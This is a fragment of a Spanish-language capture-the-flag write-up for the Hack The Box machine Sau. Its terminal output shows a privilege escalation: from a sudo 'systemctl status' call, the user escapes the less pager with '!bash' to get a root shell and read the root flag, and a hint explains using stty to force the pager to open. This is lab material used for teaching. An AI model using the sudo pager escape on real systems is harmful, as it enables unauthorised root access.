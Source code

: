 ```bash
             ├─1260 script /dev/null -c bash
             ├─1261 bash
             ├─1298 sudo /usr/bin/systemctl status trail.service
             ├─1299 /usr/bin/systemctl status trail.service
             └─1301 pager

Jan 26 21:09:34 sau systemd[1]: Started Maltrail. Server of malicious traffic d>
Jan 26 22:30:18 sau sudo[1297]:     puma : TTY=pts/1 ; PWD=/opt/maltrail ; USER>
!bash
root@sau:/opt/maltrail# whoami
root
root@sau:/opt/maltrail# cat /root/root.txt
5275ac8db31*********************
```

{% hint style="danger" %}
En caso de que no se nos pusiera en modo `less`, podemos jugar con el tamaño de columnas y filas `stty` para convertir la terminal más pequeña y al ejeuctar el `systemctl` se nos ponga en modo paginate.
{% endhint %}

<figure><img src="../../.gitbook/assets/4219_vmware_0dk4oSUiCF.png" alt="" width="369"><figcaption></figcaption></figure>

